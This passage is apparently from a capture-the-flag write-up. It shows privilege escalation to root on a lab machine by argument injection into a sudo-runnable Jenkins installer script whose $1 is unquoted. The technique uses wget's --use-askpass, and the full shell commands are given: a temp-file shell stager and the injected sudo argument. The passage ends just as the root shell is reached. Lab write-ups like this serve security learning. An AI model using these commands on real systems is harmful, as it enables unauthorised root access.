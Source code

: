 
![evidence](./static/22-test-https.png)

And now, I am ready to start the attack, when I check the file `/usr/share/jenkins/jenkins_installer` again, then I realize something that I did not when I first saw that file, and it is the way the script uses the parameter `$1`, and it is not surrounded by double quotes or brackets, and I realize that everything I'm doing is not necessary, and it is because I can modify the `bash` command, but despite that, I learned some useful things. When I search for [`wget` in gtfobins](https://gtfobins.github.io/gtfobins/wget/), and I can see that I can spawn a shell with the `--use-askpass` option, when I follow the steps, and I create a temporary directory:
```shell
$ leeroy@leeroy:~$ TF=$(mktemp)
```
And I give it executable permissions:
```shell
$ leeroy@leeroy:~$ chmod +x $TF
```
And I store the shell command:
```shell
$ leeroy@leeroy:~$ echo -e '#!/bin/sh\n/bin/sh 1>&0' >$TF
```
And I send the payload:
```shell
$ leeroy@leeroy:~$ sudo /usr/share/jenkins/jenkins_installer \
> " - --use-askpass=$TF 0"
```
Then I can get the `root` shell, and I can get the `root` flag:

